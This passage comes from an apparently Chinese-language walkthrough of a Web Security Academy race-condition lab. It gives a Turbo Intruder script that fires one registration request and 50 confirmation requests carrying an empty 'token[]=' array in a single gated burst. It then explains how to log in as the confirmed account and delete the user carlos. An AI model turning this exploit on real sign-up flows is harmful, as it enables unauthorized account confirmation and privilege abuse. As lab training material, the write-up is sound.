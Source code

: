 ```bash
def queueRequests(target, wordlists):

        engine = RequestEngine(endpoint=target.endpoint,
                                concurrentConnections=1,
                                engine=Engine.BURP2
                                )

        confirmationReq = '''POST /confirm?token[]= HTTP/2
Host: 0a0f005704200d7b802b3a3c00da0084.web-security-academy.net
Cookie: phpsessionid=N7TCMvqWeGxy37t94UXs0WOxoetbsLHx
Content-Length: 0

    '''
        for attempt in range(20):
            currentAttempt = str(attempt)
            username = 'User' + currentAttempt

            # 队列化注册请求
            engine.queue(target.req, username, gate=currentAttempt)

            # 将50个确认请求排入队列 - 注意这可能会以两个独立数据包被发送
            for i in range(50):
                engine.queue(confirmationReq, gate=currentAttempt)

            # 把的所有队列中请求都发送出去(正确的是一次发51个包)
            engine.openGate(currentAttempt)

def handleResponse(req, interesting):
    table.add(req)
```

五、attack 之后俺 length 排序就可以找到注册成功的账号啦，之后登录账号即为管理员权限最后删除 carlos 账号即可通关

[![](assets/1705974099-943a44cbc0f876ad47a66e5cca92d324.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122071647-2646e4fc-b8b3-1.png)
